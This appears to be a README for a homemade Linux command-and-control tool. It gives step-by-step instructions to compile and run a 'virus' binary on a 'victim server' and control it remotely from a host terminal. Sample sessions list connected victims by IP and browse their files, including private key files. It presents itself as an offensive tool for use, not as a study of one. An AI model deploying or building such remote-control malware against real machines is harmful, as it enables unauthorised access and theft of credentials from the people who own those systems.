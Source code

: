 Linux Server C2 Controller

Step 1:
Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address

Step 2:
Copy tcsl.cpp to your Linux Server
virus.cpp to your victim server
host.cpp to your local machine as control side
and then compile:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ virus.cpp -o server 

Step 3: 
Open 3 terminals and run the command seperately:
./tcsl
Support any amounts of Clients' connections
the Host and Client is auto-recognized:  
./virus
./host

Step 4:
Please use 'hs' followed with the client numbers you pick.
For example: 'hs 1'
Use 'hh' to check the connected clients.

Step 5:
Enjoy your commands in the host terminal and control your client as terminal.
For example:
Connected to the server.
No client connected.

┌──(root♪hr0g) - [~]

└─# ls
Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~1]

└─# exit

Exited.
Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~1]

└─# hs 2
Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.
Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# exit

Exited.
Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls
Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
